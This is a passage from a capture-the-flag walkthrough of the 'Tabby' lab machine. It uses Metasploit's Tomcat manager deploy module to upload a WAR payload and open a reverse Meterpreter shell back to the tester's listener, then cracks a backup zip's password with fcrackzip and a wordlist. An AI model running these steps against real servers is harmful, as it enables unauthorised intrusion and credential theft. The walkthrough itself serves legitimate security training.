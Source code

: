```bash

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.21      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Java Universal
```

I got shell

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Using manually select target "Java Universal"
[*] Uploading 6275 bytes as 0msdxB5K7cAihXhlrKiT9J1oAWeOll.war ...
[*] Executing /0msdxB5K7cAihXhlrKiT9J1oAWeOll/dMpGF3e3YmV.jsp...
[*] Undeploying 0msdxB5K7cAihXhlrKiT9J1oAWeOll ...
[*] Sending stage (53904 bytes) to 10.10.10.194
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.194:50400) at 2020-06-22 12:30:12 +0530

meterpreter >
```

## Getting User shell

While enumerating, found there is a backup file in `/var/www/html/files`

```bash
tomcat@tabby:/var/www/html/files$ ls
ls
16162020_backup.zip  archive  revoked_certs  statement
```

Downloaded to machine and it askes for password to unzip, I used `fcrackzip` to find the password.

```bash
root@kali:~/CTF/HTB/Boxes/Tabby# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
root@kali:~/CTF/HTB/Boxes/Tabby# unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```
